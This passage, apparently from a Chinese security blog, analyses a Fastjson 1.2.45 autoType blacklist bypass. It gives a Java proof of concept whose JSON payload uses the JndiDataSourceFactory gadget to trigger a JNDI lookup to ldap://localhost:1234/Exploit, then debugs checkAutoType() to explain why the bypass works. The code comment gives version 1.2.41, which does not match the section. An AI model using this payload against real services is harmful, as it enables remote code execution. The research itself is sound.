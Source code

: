 关键PoC：`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`

主要就是黑名单绕过，这个类我们在哈希黑名单中1.2.46的版本中可以看到：

| version | hash                 | hex-hash            | name                         |
| ------- | -------------------- | ------------------- | ---------------------------- |
| 1.2.46  | -8083514888460375884 | 0x8fd1960988bce8b4L | org.apache.ibatis.datasource |

EXP 如下

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
// Fastjson 1.2.41 版本的绕过  
public class SuccessBypassEXP_45 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"," +  
                "\"properties\":{\"data_source\":\"ldap://localhost:1234/Exploit\"}}";  
 JSON.parse(payload);  
 }  
}
```

成功

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Success1245.png)

### 调试分析

调试`checkAutoType()`函数，看到对前一个补丁绕过方法的”`[`“字符进行了过滤，只要类名以”`[`“开头就直接抛出异常：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Debug1245.png)

后面由于”org.apache.ibatis.datasource.jndi.JndiDataSourceFactory”不在黑名单中，因此能成功绕过`checkAutoType()`函数的检测。

继续往下调试分析org.apache.ibatis.datasource.jndi.JndiDataSourceFactory这条利用链的原理。

由于payload中设置了properties属性值，且`JndiDataSourceFactory.setProperties()`方法满足之前说的Fastjson会自动调用的`setter`方法的条件，因此可被利用来进行Fastjson反序列化漏洞的利用。

直接在该setter方法打断点，可以看到会调用到这来，这里就是熟悉的JNDI注入漏洞了，即`InitialContext.lookup()`，其中参数由我们输入的properties属性中的data_source值获取的：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/dataSource.png)

之后就是由JNDI注入漏洞成功触发Fastjson反序列化漏洞了。

## 0x08 1.2.25-1.2.47补丁绕过

### EXP
